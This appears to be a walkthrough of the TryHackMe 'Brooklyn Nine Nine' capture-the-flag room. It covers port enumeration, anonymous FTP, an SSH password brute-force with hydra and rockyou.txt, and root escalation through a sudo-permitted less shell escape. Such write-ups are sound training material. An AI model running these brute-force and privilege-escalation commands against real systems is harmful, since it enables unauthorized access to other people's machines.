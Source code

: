 # Brooklyn Nine Nine (THM)

- https://tryhackme.com/room/brooklynninenine
- March 4, 2023
- easy

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 3.0.3
   - anonymous FTP login allowed
   - -rw-r--r-- 1 0 0 119 May 17 2020 note_to_jake.txt
2. 22/tcp open ssh syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3. 80/http Apache/2.4.29

### ftp

- get one text file

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

### http

- http://$IP
- found an image and in view page source

```
<!-- Have you ever heard of steganography? -->
```

- directory brute forcing with ffuf
- nothing special found

- get the image

### ssh

- from Amy text, brute force jake's ssh password

```
$ hydra -l jake -P /usr/share/wordlists/rockyou.txt $IP ssh -t 4
login: jake   password: xxxxxxxx
```

# User Access

```sh
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

jake@brookly_nine_nine:~$ cat /home/holt/user.txt
```

## Root Access

```sh
# read the /root/root.text with less command
jake@brookly_nine_nine:~$ sudo less /root/root.txt

# OR
jake@brookly_nine_nine:~$ sudo less /etc/profile
!/bin/bash
root@brookly_nine_nine:~# whoami
root
```

---
